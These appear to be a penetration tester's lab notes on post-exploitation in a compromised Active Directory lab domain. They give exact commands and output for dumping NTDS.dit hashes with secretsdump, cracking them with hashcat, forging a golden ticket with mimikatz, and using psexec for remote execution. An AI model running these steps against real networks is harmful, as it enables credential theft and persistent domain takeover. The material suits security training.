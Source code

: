 ## We own the domain now what?  
In the event we manage to compromise Domain and there is still time in the engagement, we will continue to provide as much value to the client as possible.  

1. Dump NTDS.dit and crack passwords.
2. Enumerate further shares for sensitive information such as PII data and other findings so that this can be reported.
3. Create persistence in the event our main access is lost and also remember to remove rouge Domain Admin accounts.
4. Test for detections espicially for DA account creations. A good environment should detect these account creations.
5. Creating a Golden Ticket.

---

## 🚩 Dumping the NTDS.dit

### What is NTDS.dit?  
An extremely critical and highly sensitive database used to store AD data within Active Directory / Domain Controllers:
* user information
* group information
* security dscriptors
* password hashes

Using a **known domain admin account** we could use secretsdump and its switch of **-just-dc-ntlm** to dump out the DCs NTDS file. A successful Domain dump will contain a range of information from: SAM, credentials, domains, krbtgt, hashes, local account users, pc logins, and other accounts that may of been created from ipv6 / relayx + mitm6 relay attack.  

example:

    impacket-secretsdump / secretsdump - impacket-secretsdump MARVEL.local/pparker:'Password1'@192.168.64.139 -just-dc-ntlm

using our malicious domain admin account hawkeye against the DC, we succesfully dumped the local SAM and more importantly the NTDS.dit file. From the dump we also see 'kerberos keys' and also the krbtgt which could be later leveraged in a kerberos ticket attack.

    impacket-secretsdump MARVEL.local/hawkeye:'Password1@'@192.168.64.138

![image](https://github.com/user-attachments/assets/dfe18c4b-7172-4012-8155-1c74bbd42f97)

Using -just-dc-ntlm with secretsdump will only dump out the NTDS.dit, filtering out the other data as the name implies.  

    root@kali:/home/kali# impacket-secretsdump MARVEL.local/hawkeye:'Password1@'@192.168.64.138 -just-dc-ntlm
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2617733570dcba888a76e40359f8a359:::
    MARVEL.local\tstark:1103:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
    MARVEL.local\SQLService:1104:aad3b435b51404eeaad3b435b51404ee:f4ab68f27303bcb4024650d8fc5f973a:::
    MARVEL.local\fcastle:1105:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
    MARVEL.local\pparker:1106:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
    avrrDOsNBw:1109:aad3b435b51404eeaad3b435b51404ee:253a38577fe79301cf439d788dfa3850:::
    hawkeye:1110:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
    HYDRA-DC$:1000:aad3b435b51404eeaad3b435b51404ee:86757f6579150e5ef1901687a33b627b:::
    THEPUNISHER$:1107:aad3b435b51404eeaad3b435b51404ee:2338c61f1a4137c16acab764b8fe5022:::
    SPIDERMAN$:1108:aad3b435b51404eeaad3b435b51404ee:1d86510b8589eccf45424b657db6ab52:::
    [*] Cleaning up... 
    root@kali:/home/kali# 

Now that we have the NTLM hashes dumped out from the NTDS.dit, we should filter out the NT portions of the hashes in excel, place it in a .txt file and have it cracked with -m of 1000 (given they are just ntlm) using hashcat. With all the cracked passwords, we can place them back into excel to see the passwords to accounts and also for final reporting.  

![image](https://github.com/user-attachments/assets/bd6014ac-0ea6-472c-b1fb-27290f32b313)

    hashcat -m 1000 ntds111.txt 
    once finished
    hashcat -m 1000 ntds111.txt --show

![image](https://github.com/user-attachments/assets/8b8b4bfb-821c-449f-9edc-f909ce359101)

We can now apply the cracked passwords back to the excel and match the cracked passwords with the hashes through using =vlookup magic or bash script.   

### Note:  
ignore PC passwords, they are typically not going to be cracked and have low value in this scenario.

---

## 🚩 Golden Ticket Attacks  

### What is Golden Ticket Attacks?  
* when we compromise the krbtgt (kerboros ticket granting ticket) we essentially own the domains.
* we can request access to any resource or system on the domain.
* golden tickets == complete access to every machine.

### Why exploit Golden Tickets even when we own the Domain?
* laterally move into accounts that we may not be able to access using forged tickets.
* authenticate into accoutns without needing a password.
* if our domain account is removed, we can still gain access with a Golden Ticket creation, maintaining persistance.

**Using mimikatz.exe to generate Golden Tickets.** 
1. priv debug
2. lsadump for krbtgt account: to obtain sid, krbtgt ntlm hash
3. with the krbtgt hash we can use it to generate a Golden Ticket
4. use Golden Ticket to 'Pass the Ticket' to now access any machine within the domain
5. Golden Ticket can launch tools at machines or users in the same network without username / passwords - Gticket bypasses this requirement
6. when in any account, we could enumerate files and even spawn new shells

---

### Performing a Golden Ticket Attack with a Pass the Ticket attack  

1. On the DC we have obtained mimikatz.exe by GentleKiwi
3. We now aim to obtain the krbtgt account, Kerboros - ticket granting ticket account
4. This allows us to generate tickets if we have the hash of the krbtgt account
5. With the hash of the krbtgt account we can use it to access service and resource or create a 'Golden Ticket' and use that for access.

**From the DC, run as admin on cmd.exe and the following:**  
    mimikatz.exe
    privilige::debug
    lsadump::lsa /inject /name:krbtgt

![image](https://github.com/user-attachments/assets/7baacf00-be56-46aa-ba61-88670fbc1574)

**Here we have obtained the krbtgt details, and use these to 'Pass the Hash' to create a 'Golden Ticket Session':**  
user: krbtgt  
SID of Domain: S-1-5-21-277273238-679169888-2290246510  
ntlm hash: 2617733570dcba888a76e40359f8a359  
/id: 500 (admin account)  
/ptt:  pass the ticket  

**Generate a Golden Ticket and session with these details:**  

    mimikatz # kerberos::golden /User:FakeUser123 /domain:marvel.local /sid:S-1-5-21-277273238-679169888-2290246510 /krbtgt:2617733570dcba888a76e40359f8a359 /id:500 /ptt

![image](https://github.com/user-attachments/assets/668c803d-d4dc-4e3d-985f-a97a78ac3667)

**From this we have now obtained a Golden Ticket for our 'fakeuser123' in current session**  
pull up cmd with the newly created Golden Ticket session.
    
    misc::cmd
    *in new window*
    dir \\THEPUNISHER\c$

![image](https://github.com/user-attachments/assets/76543f30-69a5-4391-8f87-4b2ea17357d1)

We have gained access into THEPUNISHER machine. For further compromise of this user, we could install psexec.exe orr other a sysinternals tool on our attacker machine for remote code execution. Once downloaded, from the terminal we can use 'psexec.exe \\THEPUNISHER cmd.exe' to gain a reverse shell and functional interaction.  

---

**Conclusion:**
* Compromise a Domain Controller (DC) account.
* Hijack the krbtgt Ticket Granting Ticket (TGT) using lsadump.
* Use the krbtgt details to conduct a Pass-the-Hash (PTH) attack.
* Grant a Golden Ticket session with a fake user.
* With the Golden Ticket, access any service or resource due to having Ticket Granting Authority.
* Use the Golden Ticket session to gain access to THEPUNISHER machine.
* Enumerate shares on THEPUNISHER machine.
* With access to the shares, use PsExec or other remote code execution tools from the attacking terminal against THEPUNISHER.
